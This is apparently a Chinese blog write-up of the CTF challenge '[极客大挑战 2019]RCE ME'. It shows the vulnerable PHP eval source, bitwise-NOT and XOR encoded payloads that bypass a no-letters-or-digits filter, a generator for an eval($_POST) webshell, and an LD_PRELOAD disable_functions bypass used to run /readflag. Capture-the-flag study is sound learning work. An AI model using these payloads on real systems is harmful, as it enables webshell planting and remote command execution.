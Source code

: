 ```yaml
---

title: 日常练习32

date: 2021-05-11 23:35:37

tags: 练习

categories: test81

---
```

这道题是一个rce的绕过题。  

# [极客大挑战 2019]RCE ME  

关于rce的绕过感觉还是重在积累，网上有很多博客都有讲各种rce的绕过，比如什么无参数绕过，无字母数字绕过等等，下次有时间整理一下。  

这道题目直接给了源码，  

	<?php
	error_reporting(0);
	if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
	}
	else{
            highlight_file(__FILE__);
	}
	
	// ?>  

很明显就是无字母和数字的rce绕过，这个网上都有讲解。这里简单说一下，对于不同版本的php有不同的方法来绕过字母和数字的过滤，可以取反或者异或绕过，如果这些不行还可以通过上传文件来用通配符绕过，这道题用取反绕过即可。  

先执行一下phpinfo()试一试：  

	?code=(~%8F%97%8F%96%91%99%90)();  

发现成功执行，那么接下来就好办了。我们直接构造一个一句话木马连一下：  

	<?php 
	error_reporting(0);
	$a='assert';
	$b=urlencode(~$a);
	echo $b;
	echo "<br>";
	$c='(eval($_POST[cmd]))';
	$d=urlencode(~$c);
	echo $d;
	 ?>   

得到取反后的payload：  

	?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6);  

[![](https://pic.imgdb.cn/item/609e97f8d1a9ae528f66fefd.png)](https://pic.imgdb.cn/item/609e97f8d1a9ae528f66fefd.png)  

成功连上，接下来就是上蚁剑。  

用蚁剑连上后却发现打开readflag文件是乱码，原来是开启了disable_functions，禁用了很多函数，导致我们的shell无法生效，那么我们就需要绕过这个disable _functions的限制，这里有两种方法。  

## 利用蚁剑的插件  

蚁剑的有一个插件可以绕过disable_functions的限制，但是我这个蚁剑没办法下载，所以没办法使用。但是这个插件确实好用。  

##  LD_preload + mail劫持so来执行系统命令  

这个原理就有点复杂了，我直接讲方法，大致原理如下：  

	利用linux提供的LD_preload环境变量，劫持共享so，在启动子进程的时候，新的子进程会加载我们恶意的so拓展，然后我们可以在so里面定义同名函数，即可劫持API调用，成功RCE  

### 方法：  

我们发现在/var/tmp/目录存在上传权限，那么我们上传我们的exp（这个是可以在GitHub上下载的）

上传下面两个文件  

[![](https://pic.imgdb.cn/item/609e9c31d1a9ae528fa98189.png)](https://pic.imgdb.cn/item/609e9c31d1a9ae528fa98189.png)  

然后我们就可以在网页上重新构造payload来执行命令了。  

	?code=${_GET}[_](${_GET}[_]);&_=assert&_=eval($_POST['a'])  

再加上对应的getshell文件和绕过exploit文件即为：  

	?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so

上传就能得到flag。  

[![](https://pic.imgdb.cn/item/609e9d52d1a9ae528fbba03d.png)](https://pic.imgdb.cn/item/609e9d52d1a9ae528fbba03d.png)  

# 小结 

这道题考的就是无字母数字的rce绕过，网上方法很多，其次就是关于disable _functions的绕过，这里学到了两个方法，一个是利用蚁剑上的插件，另一个就是LD _preload + mail劫持so来执行系统命令，关于第二个方法目前对于具体原理理解还不深，只知道具体步骤，有时间还是要多加深理解。  

下面附上第二种方法的exp下载和关于无字母数字rce的绕过博客：  

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD  

[无字母数字RCE与LD_PRELOAD绕disable_functions](https://blog.csdn.net/weixin_45669205/article/details/115842332?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522162100811916780274196600%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=162100811916780274196600&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~times_rank-4-115842332.first_rank_v2_pc_rank_v29&utm_term=%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce&spm=1018.2226.3001.4449)